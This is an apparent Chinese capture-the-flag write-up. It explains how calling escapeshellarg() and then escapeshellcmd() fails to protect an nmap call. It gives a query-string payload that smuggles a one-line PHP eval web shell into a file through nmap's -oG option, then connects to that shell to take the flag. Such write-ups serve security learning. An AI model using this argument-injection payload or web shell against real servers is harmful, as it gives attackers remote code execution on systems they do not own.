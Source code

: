 ![upload successful](./images/pasted-251.png)
使用?host=ip，分析了一下自己的服务器

这里找到了一个相关的函数解释：

函数escapeshellarg的作用是把字符串转码为可以在 shell 命令里使用的参数，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

函数escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$, \x0A 和 \xFF。 ’ 和 " 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。

例如 ads’ escapeshellarg 首先 ‘ads’‘’’ 加单引号并对字符串中单引号进行转义 escapeshellcmd()会对\进行转义并对不配对的值进行转义，‘ads’\‘’‘最后为ads’

`

扩展：<code>-oG xxx.php</code>   是nmap上传文件的命令，故利用nmap上传一句话

构造payload:<code>?host='<?php eval($_POST[1]);?> -oG shell.php ’</code>

![upload successful](./images/pasted-252.png)
成功上传，使用蚁剑连接，拿下flag！
